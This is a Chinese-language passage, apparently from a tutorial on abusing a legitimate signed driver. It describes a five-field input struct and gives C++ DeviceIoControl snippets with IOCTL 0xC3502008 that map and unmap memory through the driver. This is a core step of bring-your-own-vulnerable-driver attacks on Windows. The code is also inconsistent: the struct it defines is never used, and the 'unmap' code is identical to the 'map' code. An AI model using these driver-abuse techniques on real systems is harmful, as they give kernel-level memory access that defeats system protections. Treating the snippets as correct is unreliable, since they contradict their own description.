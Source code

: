 白利用：

通过函数中的变量初始化来看，一共接收了5个参数，分别为

1.  type 0x0
2.  size 0x4
3.  Adress 0x8
4.  Flag 0x10
5.  ViewSize 0x14

也就是说需要传入一个结构体:

```plain
typedef struct conn{

ULONG type;
ULONG size;
ULONG64 Address;
ULONG Flag;
ULONG viewSize;

}
```

那么建立映射的代码则如下所示：

```plain
ULONG64 Input = address;

       ULONG64 Output[2] = { 0 };



       ULONG returned = 0;



       DeviceIoControl(hHandle, 0xC3502008, reinterpret_cast<LPVOID>(&Input), 
sizeof(Input),

              reinterpret_cast<LPVOID>(Output), sizeof(Output), &returned, 
NULL);



       return Output[0];
```

取消映射：

```plain
ULONG64 Input = address;

       ULONG64 Output[2] = { 0 };



       ULONG returned = 0;



       DeviceIoControl(hHandle, 0xC3502008, reinterpret_cast<LPVOID>(&Input), 
sizeof(Input),

              reinterpret_cast<LPVOID>(Output), sizeof(Output), &returned, 
NULL);


```